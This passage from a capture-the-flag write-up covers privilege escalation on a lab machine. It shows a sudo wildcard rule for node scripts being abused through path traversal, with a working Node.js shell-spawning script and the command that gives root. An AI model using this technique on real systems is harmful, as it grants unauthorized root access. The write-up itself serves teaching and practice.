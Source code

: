 We cannot read any of this files and write new ones. By context, we can imagine that this scripts are part of the web application and, with further investigation, it's possible to exploit it. But there's a much more easier way to do it. Follow me.

We've checked the sudo permissions of `angoose` with the command `sudo -l` . The system informs us that we can execute everything in the scripts folder (since the file extension is `.js`):

```shell
$ sudo -l
# ...
User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

But here's the catch: the wildcard `*` includes the `.` and `..` directories, allowing us to path traversal with root privileges.[^3]

#### Exploitation

First, let's create a `malicious.js` file with our contents:

```shell
cd  # Returns to /home/angoose
vim malicious.js
```

Spawning a shell:

```js
const { spawn } = require('child_process');
const bash = spawn('bash');

bash.stdout.pipe(process.stdout);
bash.stderr.pipe(process.stderr);
process.stdin.pipe(bash.stdin);
```

Running the file:

```shell
sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/malicious.js
whoami
# root
```

Thanks for reading and happy hacking!

---
[^1]: Through the `Server` header.
[^2]: I discovered it in the P&D group of my College. We've needed to configure two subdomains of a web-app, and, researching, i've found about it. Make sure to [check the project!](https://github.com/entr0pie/api-tamagochi/tree/docker-nginx)
[^3]: If you want a deep dive into how this works, make sure to check the [David Hamann article](https://davidhamann.de/2023/02/24/beware-of-wildcard-paths-sudo/).
